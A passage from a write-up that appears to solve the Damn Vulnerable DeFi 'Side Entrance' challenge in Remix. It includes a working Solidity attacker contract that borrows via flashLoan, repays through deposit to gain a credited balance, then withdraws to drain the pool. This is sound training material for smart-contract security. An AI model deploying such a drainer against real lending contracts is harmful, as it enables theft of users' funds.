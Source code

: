 ### Exploit

This challenge is conveniently solved via Remix. First, we deploy the contract from Remix's default account. Next, we call `deposit`, specifying a transaction value of `42000000000000000000 == 42 ether` to fund the pool with its initial balance. (The original assignment described in Damn Vulnerable DeFi specifies a pool with an initial balance of 1000 ether instead of 42 ether. However, bumping the contract's balance up to 1000 ether is quite tedious in Remix. Since the exact pool balance doesn't really matter, we'll assume a pool balance of 42 ether instead of 1000 ether for convenience.)

With the initial setup completed, we now have to find a way to drain all funds from the contract using a different account than the one we used for the deposit.

To achieve that, we can deploy an attacker contract that will perform the following steps:

1. Call `flashLoan` to borrow 42 ether.
2. Pay back the flash loan by calling `deposit` with a value of 42 ether. Notice that this will register a deposit balance of 42 ether for the attacker contract!
3. Call `withdraw` to drain 42 ether from the pool.

All of the above steps can be performed with a single function call to `attack` using the contract shown below. Notice that 

1. you must specify the victim contract's address during the deployment of the attacker contract and
2. you must specify `amount = 42000000000000000000` when calling `attack`.

```solidity
// SPDX-License-Identifier: UNLICENSE
pragma solidity ^0.8.0;

import "./SideEntranceLenderPool.sol";

contract SideEntranceLenderPoolAttacker {

    SideEntranceLenderPool public sideEntranceLenderPool;

    constructor(SideEntranceLenderPool _sideEntranceLenderPool) {
        sideEntranceLenderPool = _sideEntranceLenderPool;
    }

    receive() external payable {}

    function execute() external payable {
        sideEntranceLenderPool.deposit{value: msg.value}();
    }

    function attack(uint256 amount) external {
        sideEntranceLenderPool.flashLoan(amount);
        sideEntranceLenderPool.withdraw();
    }
} 
```

## Damn Vulnerable DeFi - Unstoppable
